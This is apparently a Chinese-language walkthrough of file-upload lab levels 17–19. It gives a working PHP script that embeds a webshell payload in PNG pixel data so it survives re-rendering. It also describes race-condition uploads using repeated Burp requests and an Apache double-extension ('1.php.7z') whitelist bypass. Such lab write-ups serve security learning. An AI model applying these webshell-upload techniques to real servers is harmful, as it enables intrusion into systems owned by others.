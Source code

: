 图片马二次渲染绕过
1、gif图片
对于gif图片，gif图片的特点是无损（修改图片后，图片质量几乎没有损失），我们可以对比上传前后图片的内容字节，在渲染后不会被修改的部分插入木马。对比工具可以使用burp，也可以使用010编辑器（更直观一点）

或者直接运行php脚本

~~~php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);
$img = imagecreatetruecolor(32, 32);
for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}
imagepng($img,'./1.png');
?>
~~~

运行脚本生成1.png，发现木马被写入。可以直接生成不会被杀的图片马。

## 十八关	条件竞争上传

先将文件上传到服务器，然后通过rename修改名称，再通过unlink删除修改名称后的文件，这里可以通过条件竞争的方式在unlink之前，访问webshell。

首先在burp中不断发送上传webshell的数据包即可。

> 这里是这样操作的，先通过move_uploaded_file把文件保存了，然后再去判断后缀名是否合法，合法就重命名，如果不合法再删除。重是重点在于，在多线程情况下，就有可能出现还没处理完，我们就访问了原文件，这样就会导致被绕过防护。

## 十九关	条件竞争上传

根据apache的后缀名识别漏洞：从右往左依次识别后缀，遇到不能识别的后缀名便跳过 ，因此可以文件名改为

1.php.7z,然后利用bs 快速发包，

本关对文件后缀名做了白名单判断，然后会一步一步检查文件大小、文件是否存在等等，将文件上传后，对文件重新命名，同样存在条件竞争的漏洞。可以不断利用burp发送上传图片马的数据包，因为move在rename之前，move操作进行了一次文件保存，然后rename进行了一次更改文件名，由于条件竞争，程序会出现来不及rename的问题，从而上传成功

所以本题相对上题是差不多的，只不过多了一部操作而已：增加Apache的解析识别漏洞（后缀冗余）

（1）利用Apache 的漏洞，将webshell 脚本文件名改为1.php.7z （白名单中 有.7z 这个apache 不能识别的后缀，所以用.7z)

然后利用bs 去不断快速发包，实现条件竞争，进而保留了脚本名，使apache 将其识别为1.php

（2）单纯利用 条件竞争，利用bs 去不断快速发包，实现条件竞争，进而保留了图片马的文件名，成功绕过
